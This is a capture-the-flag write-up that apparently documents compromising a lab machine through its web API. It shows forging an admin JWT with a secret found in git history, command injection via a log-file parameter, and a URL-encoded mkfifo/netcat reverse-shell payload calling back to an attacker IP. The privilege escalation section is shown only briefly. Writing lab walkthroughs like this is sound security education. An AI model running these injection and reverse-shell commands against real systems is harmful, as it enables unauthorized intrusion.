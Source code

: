 # User

## Enumeration

[comment]: <> (Nmap and Gobuster results)

## Website Enumeration

This is a website of some kind of an open-source API with a live demo mode, which heads to `api/priv`. There is a documentation page, that has a lot of information about how the API works.

First, in the Log In section, there is an example of a log in request with an email and a password and I try to see, if this happens to be a valid admin account.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/login' --data '{
"email": "root@dasith.works",
"password": "Kekc8swFgD6zU"
}'
```
No luck here unfortunately. 
So I proceed to register a new user, using the information given.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/register' --data '{
"name": "testuser",
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
with a succesfull response `{"user":"testuser"}`. I try to log in with these credentials to see that it really works.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/login' --data '{
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
with succes and response is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.WdLNQs7gWNqS1-zDfhXstyqoqm7Y2UUXK8E0tkIFkxw`. This is the JWT token that authenticates user *"testuser"*.

Now I try to access `api/priv`
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.WdLNQs7gWNqS1-zDfhXstyqoqm7Y2UUXK8E0tkIFkxw' -i 'http://10.10.11.120/api/priv
```
and response is `{"role":{"role":"you are normal user","desc":"testuser"}}`. So I logged in as a user, but I need to find an other way to gain access as admin. I'm going to keep looking on the website for any other information, that could be helpful.

I find out that, I can download the source code, which can be really useful.

## Source Code Examination
[comment]: <> (Source code examination)

## JWT Forging

Using jwt.io and the JWT token I got with "testuser", I will try to forge a new one with `username="theadmin"` and the `TOKEN_SECRET=secret`(email doesn't really matter, since it checks only if `username="theadmin"`).
![jwtsecret](img/jwtfake.png)
Then I try to login with forged JWT token with `TOKEN_SECRET=secret`
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.DTKfqkj0GUAI46OLUGTwoOnBEgbQ0PkWk9pVMUz95g4' -i 'http://10.10.11.120/api/priv'
```
But it's rejected. This means, that the token secret has been changed, before the source code was uploaded.

Look in `.git` and find file `logs/HEAD` with commit history and a commit with description `commit: removed .env for security reasons`
Go back to that commit with:
![gitdiff](img/gitdiff.png)


Now I can forge the JWT token, this time with the real `TOKEN_SECRET`.
![jwtlegit](img/jwtlegit.png)

and login with it
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/priv'
```

I am now authenticated as the admin! 
 `{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}`

I have to find a way to make use of this, in order to get a reverse shell.

```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;whoami'
```

and response `"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\ndasith\n"`

```
curl -X GET -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204242%20%3E%2Ftmp%2Ff'
```

I got the reverse shell and **User Flag** ✔️!!!

# PrivEsc

`find / -type f -perm -u=s 2>/dev/null`


Find `/opt/count` and visiting `/opt` there is a .c file also.
![code](img/code.png)

This program, reads a path from user input, loads it in it's memory and counts how many rows it has if it's a file or how many

Now I search the flag in the `strings CoreDump`.
![coredump](img/coredump.png)

**Root Flag** ✔️!!!





